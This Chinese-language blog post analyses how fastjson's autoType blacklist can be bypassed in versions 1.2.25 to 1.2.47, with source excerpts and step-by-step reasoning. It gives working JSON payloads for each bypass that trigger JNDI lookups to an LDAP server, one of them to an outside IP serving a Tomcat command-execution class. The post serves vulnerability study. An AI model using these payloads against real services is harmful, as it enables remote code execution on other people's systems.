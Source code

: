 ```yaml
---
layout: post
date: 2025-5-8
title: "fastjson各版本绕过分析-(未完)"
author: "XinYiSleep"
category: Java
---
```

<h1 id="YdP3x">1.基本信息</h1>

```
之前我们讲了1.2.24的利用，但是在1.2.25版本开始引入了一个修复这个修复大体一直延续到最新版，
autoTypeSupport这个属性默认是false,会进行黑名单和白名单的检测，说到这里有点懵不要紧，我们先对比一下1.2.24和1.2.25的修复区别是什么(图一，图二)。
```
![](https://xinyisleep.github.io/img/2025/fastjson/fastjson1.2.25/1.png)

![](https://xinyisleep.github.io/img/2025/fastjson/fastjson1.2.25/2.png)

```
1.2.24中是直接loadClass了，但是在1.25中以及之后执行了checkAutoType(代码一)，
其实这段代码很恶心哈，因为没有else很难知道他像到底干什么(可能人家就是不想让你读懂)。
```
```java
public Class<?> checkAutoType(String typeName, Class<?> expectClass) {
    if (typeName == null) {
        return null;
    } else {
        String className = typeName.replace('$', '.');
        if (this.autoTypeSupport || expectClass != null) {
            int i;
            String deny;
            for(i = 0; i < this.acceptList.length; ++i) {
                deny = this.acceptList[i];
                if (className.startsWith(deny)) {
                    return TypeUtils.loadClass(typeName, this.defaultClassLoader);
                }
            }

            for(i = 0; i < this.denyList.length; ++i) {
                deny = this.denyList[i];
                if (className.startsWith(deny)) {
                    throw new JSONException("autoType is not support. " + typeName);
                }
            }
        }

        Class<?> clazz = TypeUtils.getClassFromMapping(typeName);
        if (clazz == null) {
            clazz = this.deserializers.findClass(typeName);
        }

        if (clazz != null) {
            if (expectClass != null && !expectClass.isAssignableFrom(clazz)) {
                throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
            } else {
                return clazz;
            }
        } else {
            //黑名单匹配到直接报错了
            if (!this.autoTypeSupport) {
                String accept;
                int i;
                for(i = 0; i < this.denyList.length; ++i) {
                    accept = this.denyList[i];
                    if (className.startsWith(accept)) {
                        throw new JSONException("autoType is not support. " + typeName);
                    }
                }
                //白名单
                for(i = 0; i < this.acceptList.length; ++i) {
                    accept = this.acceptList[i];
                    if (className.startsWith(accept)) {
                        clazz = TypeUtils.loadClass(typeName, this.defaultClassLoader);
                        if (expectClass != null && expectClass.isAssignableFrom(clazz)) {
                            throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
                        }

                        return clazz;
                    }
                }
            }

            if (this.autoTypeSupport || expectClass != null) {
                clazz = TypeUtils.loadClass(typeName, this.defaultClassLoader);
            }

            if (clazz != null) {
                if (ClassLoader.class.isAssignableFrom(clazz) || DataSource.class.isAssignableFrom(clazz)) {
                    throw new JSONException("autoType is not support. " + typeName);
                }

                if (expectClass != null) {
                    if (expectClass.isAssignableFrom(clazz)) {
                        return clazz;
                    }

                    throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
                }
            }

            if (!this.autoTypeSupport) {
                throw new JSONException("autoType is not support. " + typeName);
            } else {
                return clazz;
            }
        }
    }
}
```
<h1 id="XiOxB">2.各个版本绕过分析</h1>

<h3 id="MyfCH">2.1：需要开启autoTypeSupport</h3>
<h4 id="ymQNL">1.2.25 -1.2.41绕过</h4>
```
上面知道了默认是false,但是如果是true的话是可以执行到loadClass,这里我们设置为true，如果设置这个属性呢？
ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
静态代码块进行了实例，那么直接执行setAutoTypeSupport方法就可了。
```

![](https://xinyisleep.github.io/img/2025/fastjson/fastjson1.2.25/3.png)

![](https://xinyisleep.github.io/img/2025/fastjson/fastjson1.2.25/3.5.png)

![](https://xinyisleep.github.io/img/2025/fastjson/fastjson1.2.25/4.png)

![](https://xinyisleep.github.io/img/2025/fastjson/fastjson1.2.25/5.png)

```java

好那我们就直接用1.2.24的payload
ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
String A="{\"@type\":\"java.lang.NoSuchMethodExceptionl\",\"dataSourceName\":\"ldap://127.0.0.1:1234/ExportObject\",\"autoCommit\":\"false\" }";
JSON.parseObject(A);
```

![](https://xinyisleep.github.io/img/2025/fastjson/fastjson1.2.25/6.png)

```
咦，怎么报错了，这里其实有认真看上面代码一的话应该知道其实是有很名单的(图一，图二)，
那么应该怎么办呢？我们看图三我们知道上面设置autoTypeSupport这个属性true,所以可以直接进入，并且可以看到判断
前面是L后面是;就会截取中间的内容重新执行并且返回，就可以绕过了(代码一)。
```
![](https://xinyisleep.github.io/img/2025/fastjson/fastjson1.2.25/7.png)

![](https://xinyisleep.github.io/img/2025/fastjson/fastjson1.2.25/8.png)

![](https://xinyisleep.github.io/img/2025/fastjson/fastjson1.2.25/9.png)

```java

ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
String A="{\"@type\":\"Lcom.sun.rowset.JdbcRowSetImpl;\",\"dataSourceName\":\"ldap://127.0.0.1:1234/ExportObject\",\"autoCommit\":\"false\" }";
JSON.parseObject(A);
```
<h4 id="V8ERG">1.2.25-1.2.42绕过</h4>
```
在1.2.42开始黑名单采用hash进行比较(图一)，为什么这样呢？原因很简单就是不想让你读懂，不过没关系在github中已经有大佬爆破出来很多了项目地址 [https://github.com/LeadroyaL/fastjson-blacklist](https://github.com/LeadroyaL/fastjson-blacklist)
,为了方式匹配我们把之前payload L ; 再写一遍就行了反正他会循环执行直到你前面会面没有 L ；为止(图二)，之后进入contextClassLoader.loadClass动态加载然后returm,最终payload(代码一)。
```

![](https://xinyisleep.github.io/img/2025/fastjson/fastjson1.2.25/10.png)

![](https://xinyisleep.github.io/img/2025/fastjson/fastjson1.2.25/11.png)

```java

ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
String A="{\"@type\":\"LLcom.sun.rowset.JdbcRowSetImpl;;\",\"dataSourceName\":\"ldap://127.0.0.1:1234/ExportObject\",\"autoCommit\":\"false\" }";
JSON.parseObject(A);
```
<h4 id="Cl9vb">1.2.25-1.2.43绕过</h4>
```
说起这个绕过，其实在上面进行分析的时候我截图中是有43这个版本绕过的代码的，其实很简单，之前我们1是前面L 后面；绕过，
但是上面还有一个分支(图一)，但是会出现一个问题会报错(图二)，但是这个报错其实是底层的报错主要就是告诉你格式有问题根据报错修改一下就ok了，
最终payload代码一
```

![](https://xinyisleep.github.io/img/2025/fastjson/fastjson1.2.25/12.png)

![](https://xinyisleep.github.io/img/2025/fastjson/fastjson1.2.25/13.png)

```java

ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
//逗号前面多了[{
String A="{\"@type\":\"[com.sun.rowset.JdbcRowSetImpl\"[{,\"dataSourceName\":\"ldap://127.0.0.1:1234/ExportObject\",\"autoCommit\":\"false\" }";
JSON.parseObject(J);
```

<h4 id="z8AMQ">1.2.25-1.2.45绕过</h4>
```
org.apache.ibatis.datasource.jndi.JndiDataSourceFactory
这个类是Mybatis里面的所以先要maven
**version：3.x.x系列<3.5.0的版本**
<dependency>
    <groupId>org.mybatis</groupId>
    <artifactId>mybatis</artifactId>
    <version>3.4.6</version>
</dependency>
```

```
这里就很有意思了，我们之前的打法是从代码中绕过，而45中不需要绕过，或者说不算绕过因为在45中黑名单是没有org.apache.ibatis.datasource.jndi.JndiDataSourceFactory，在46中加上了他，所以我们知道这个类是有问题的，再说一句废话我们知道会执行Setter所以找Setter,在setProperties中我们找到了感兴趣的点（图一），这不就是JNDI注入吗？没错是的，只需要键是data_source就能执行到最下面的lookup,首先得确实
Properties是不是一个泛型，当然他肯定是的(图二)，并且是Object,那就爽歪歪了，所以最终payload代码一，这里可以简单思考一下是不是在图一中我们可以走到第一个lookup呢？答案是当然可以代码二。
```

![](https://xinyisleep.github.io/img/2025/fastjson/fastjson1.2.25/14.png)

![](https://xinyisleep.github.io/img/2025/fastjson/fastjson1.2.25/15.png)

```java

String payload ="{\"@type\":\"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory\"
,\"properties\":{\"data_source\":\"ldap://localhost:1234/Exploit\"}}";
JSON.parseObject(payload);
```
```java
String payload ="{\"@type\":\"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory\",
\"properties\":{\"data_source\":\"11111111111111111\",\"initial_context\":\"ldap://134.122.16.0:1389/TomcatBypass/Command/dir\"}}";
JSON.parseObject(payload);
```
<h4 id="QJM6t"></h4>
<h3 id="pn5nv">2.2：无需开启autoTypeSupport</h3>
<h4 id="Qd1NN">1.2.25-1.2.47绕过</h4>
```
这个就有点难理解了，建议自己跟着走一遍。
1.2.25-1.2.32版本：未开启AutoTypeSupport时能成功利用，开启AutoTypeSupport反而不能成功触发；
1.2.33-1.2.47版本：无论是否开启AutoTypeSupport，都能成功利用；
```

```java

String payload  = "{\"a\":{\"@type\":\"java.lang.Class\",\"val\":\"com.sun.rowset.JdbcRowSetImpl\"},"
        + "\"b\":{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\","
        + "\"dataSourceName\":\"ldap://localhost:1389/Exploit\",\"autoCommit\":true}}";
JSON.parseObject(payload);
```

